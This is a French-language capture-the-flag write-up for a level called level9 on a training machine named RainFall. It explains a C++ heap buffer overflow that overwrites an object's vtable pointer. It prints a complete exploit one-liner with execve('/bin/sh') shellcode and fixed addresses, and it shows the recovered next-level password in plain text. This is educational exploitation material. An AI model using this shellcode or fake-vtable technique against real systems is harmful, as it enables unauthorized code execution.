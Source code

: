 # level9: Exploitation du Vtable en C++

## Aperçu du Défi

Ce défi présente un programme C++ qui utilise des concepts de programmation orientée objet comme les fonctions virtuelles et la gestion de la mémoire. L'objectif est d'exploiter une vulnérabilité de type buffer overflow en tirant parti du mécanisme de vtable du C++.

## Analyse du Code Source

Le programme est une application C++ basique qui définit une classe `N` avec une fonction virtuelle:

```cpp
class N {
public:
    // Le constructeur initialise un objet avec une valeur
    N(int value) {
        *(void ***)this = &vtable;
        *(int *)((char *)this + 104) = value;
    }

    // Copie une chaîne dans un buffer interne - fonction vulnérable!
    void setAnnotation(char *str) {
        size_t len = strlen(str);
        memcpy((char *)this + 4, str, len);
    }

    // Fonction virtuelle qui additionne les valeurs de deux objets
    virtual int operator+(N *other) {
        int myValue = this->getValue();
        int otherValue = other->getValue();
        return otherValue + myValue;
    }

    int getValue() {
        return *(int *)((char *)this + 104);
    }

private:
    // Organisation de la mémoire:
    // Octets 0-3:   pointeur de vtable
    // Octets 4-103: buffer pour l'annotation
    // Octets 104-107: valeur entière
    static void *vtable;
};
```

La fonction `main()` crée deux objets et appelle la fonction virtuelle:

```cpp
int main(int argc, char **argv) {
    if (argc < 2) {
        _exit(1);
    }

    N *obj1 = new N(5);  // Premier objet avec la valeur 5
    N *obj2 = new N(6);  // Second objet avec la valeur 6

    obj1->setAnnotation(argv[1]);  // Copie l'entrée utilisateur dans obj1

    obj2->operator+(obj1);  // Appelle la fonction virtuelle sur obj2

    return 0;
}
```

## Vulnérabilité

La vulnérabilité se situe dans la méthode `setAnnotation()`:

```cpp
void setAnnotation(char *str) {
    size_t len = strlen(str);
    memcpy((char *)this + 4, str, len);  // Pas de vérification des limites!
}
```

Cette fonction:

1. Prend une chaîne et mesure sa longueur
2. Copie la chaîne dans un buffer interne commençant à l'offset 4
3. Ne vérifie pas si la chaîne tient dans les 100 octets alloués pour le buffer

Sans vérification des limites, nous pouvons fournir une chaîne de plus de 100 octets, provoquant un buffer overflow qui peut écraser la mémoire adjacente.

## Exploitation

Pour exploiter cette vulnérabilité, nous devons comprendre le mécanisme de vtable en C++:

1. **Organisation de la Mémoire des Objets**:

   - Chaque objet avec des fonctions virtuelles possède un pointeur de vtable au début
   - Le pointeur de vtable pointe vers une table d'adresses de fonctions
   - Quand une fonction virtuelle est appelée, le programme recherche son adresse dans la vtable

2. **Organisation de la Mémoire**:

   - L'analyse GDB montre que obj1 est à l'adresse 0x804a00c
   - obj2 est à l'adresse 0x804a078 (108 octets après obj1)
   - En débordant le buffer de obj1, nous pouvons écraser le pointeur de vtable de obj2

3. **Stratégie d'Exploitation**:
   - Remplir le buffer de obj1 avec notre shellcode
   - Placer un pointeur vers notre shellcode au début de obj1
   - Déborder obj1 pour écraser le pointeur de vtable de obj2, le faisant pointer vers obj1
   - Quand la fonction virtuelle de obj2 est appelée, elle suivra la fausse vtable et exécutera notre shellcode

Grâce au debugging avec GDB, nous avons découvert que:

- obj1 commence à 0x804a00c
- Le buffer de obj1 commence à 0x804a010 (offset de 4 octets)
- Le pointeur de vtable de obj2 est à 0x804a078
- Pour déborder de obj1 à obj2, nous avons besoin d'exactement 108 octets

La clé de compréhension était que nous ne pouvions pas simplement pointer directement vers le shellcode - nous devions créer une structure de "fausse vtable":

1. À l'adresse 0x804a00c: Placer l'adresse 0x804a010 (pointant vers notre shellcode)
2. À l'adresse 0x804a010: Placer notre shellcode
3. Utiliser du padding pour atteindre exactement 108 octets
4. Écraser le pointeur de vtable de obj2 avec 0x804a00c (adresse de notre fausse vtable)

## Obtention du Mot de Passe

Nous avons construit notre chaîne d'exploit comme suit:

```
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * (108 - 4 - 21) + "\x0c\xa0\x04\x08"')
```

Où:

- `\x10\xa0\x04\x08` est l'adresse de notre shellcode (0x804a010)
- Les 21 octets suivants sont le shellcode pour `execve("/bin/sh")`
- "A" \* (108 - 4 - 21) octets de padding pour atteindre le pointeur de vtable de obj2
- `\x0c\xa0\x04\x08` est l'adresse de obj1 (0x804a00c), notre fausse vtable

Cela nous donne un shell, permettant de récupérer le mot de passe:

```
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Passage au Niveau Suivant

Utilisez le mot de passe pour vous connecter à bonus0:

```bash
level9@RainFall:~$ su bonus0
Password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
bonus0@RainFall:~$
```
